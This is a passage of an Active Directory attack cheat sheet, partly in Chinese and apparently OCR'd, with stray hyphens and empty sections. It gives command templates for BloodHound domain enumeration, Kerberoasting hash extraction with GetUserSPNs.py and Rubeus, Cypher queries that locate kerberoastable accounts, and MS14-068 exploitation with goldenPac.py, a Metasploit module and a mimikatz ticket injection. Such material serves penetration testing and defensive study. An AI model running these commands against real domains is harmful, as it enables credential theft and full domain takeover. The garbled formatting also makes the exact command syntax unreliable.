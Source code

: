 
#### 3.bloodhound


```
bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all-
```


#### 4.powerview / pywerview

### Kerberoasting攻击

#### 获取hash



```

GetUserSPNs.py -request -dc-ip <dc\_ip> <domain>/<user>:<password>-
-
Rubeus kerberoast-
```


#### 查找 kerberoastable 账号


Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName-
-
MATCH (u:User {hasspn:true}) RETURN u-
-
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-\[\*1..\]->(c)) RETURN p-

### MS14-068

FindSMB2UPTime.py




```
rpcclient $> lookupnames <name>-
-
wmic useraccount get name,sid-
-
auxiliary/admin/kerberos/ms14\_068\_kerberos\_checksum-
```


1-

```

goldenPac.py -dc-ip <dc\_ip> <domain>/<user>:'<password>'@<target>-
```


1-


```
kerberos::ptc "<ticket>"-
```
